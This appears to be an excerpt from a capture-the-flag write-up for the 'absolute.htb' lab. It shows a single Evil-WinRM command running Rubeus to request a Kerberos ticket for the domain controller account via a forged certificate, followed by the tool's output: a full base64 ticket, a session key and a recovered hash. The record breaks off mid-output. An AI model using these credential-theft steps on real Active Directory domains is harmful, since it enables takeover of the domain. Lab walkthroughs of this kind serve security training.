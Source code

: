```powershell
*Evil-WinRM* PS C:\Users\winrm_user\Documents> .\Rubeus.exe asktgt /user:DC$ /certificate:MIIJsAIBAzCC<SNIP> /password:"00126821-c60d-4966-9984-f318a969fc76" /getcredentials /show

(_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=DC$
[*] Building AS-REQ (w/ PKINIT preauth) for: 'absolute.htb\DC$'
[*] Using domain controller: fe80::9436:fb41:7e70:2199%11:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      Lmh0Yg==

  ServiceName              :  krbtgt/absolute.htb
  ServiceRealm             :  ABSOLUTE.HTB
  UserName                 :  DC$
  UserRealm                :  ABSOLUTE.HTB
  StartTime                :  3/1/2023 11:57:45 PM
  EndTime                  :  3/2/2023 9:57:45 AM
  RenewTill                :  3/8/2023 11:57:45 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  62hnEOETp4xDNoYPR0gxvQ==
  ASREP (key)              :  CFD37A11CE5BC746664A8FC39FDFB4BE

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
```